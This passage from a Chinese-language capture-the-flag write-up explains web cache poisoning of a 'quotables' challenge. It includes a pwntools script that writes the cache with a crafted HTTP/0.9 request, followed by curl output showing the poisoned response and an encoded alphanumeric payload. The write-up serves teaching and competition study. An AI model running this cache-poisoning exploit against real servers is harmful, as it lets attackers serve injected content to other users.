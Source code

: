 下面开始缓存投毒：

```python
from pwn import *
# 
r = remote('quotables.pwni.ng', 1337)
r.sendline('''GET /api/quote/{target} HTTP/0.9
Connection: keep-alive
Host: quotables.pwni.ng:1337
Range: bytes=0-2
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.3) Gecko/20120305 Firefox/10.0.3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Content-Transfer-Encoding: BASE64
Accept-Charset: iso-8859-15
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Proxy-Connection: close

'''.replace('\n', '\r\n').format(target=key))

r.close()
```
进行缓存投毒之后，此quote的响应如下：

```
 ~ curl -v  http://quotables.pwni.ng:1337/api/quote/babead1b-05df-45a8-8c39-c04212b52bba
*   Trying 35.199.45.210...
* TCP_NODELAY set
* Connected to quotables.pwni.ng (35.199.45.210) port 1337 (#0)
> GET /api/quote/babead1b-05df-45a8-8c39-c04212b52bba HTTP/1.1
> Host: quotables.pwni.ng:1337
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< HTTP/1.0 302 OK
< Content-Encoding: deflate
< Content-Type: text/html;
< Content-Lexngth: 158
<
D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3SUUnUUUwCiudIbEAtwwwEtswGpDttpDDwt3ww03sG333333swwG03333sDDdFPiOMwSgoZOwMYzcoogqffVAaFVvaFvQFVaAfgkuSmVvNnFsOzyifOMwSgoy4
* Closing connection 0
- %
```

这里巧妙的利用了http/0.9和http/1.1的差异，使用 http/0.9写缓存，用http/1.1来读缓存。所以感觉安全的本质就是不一致性(瞎说的，逃。。。。)

### 利用浏览器的解码能力
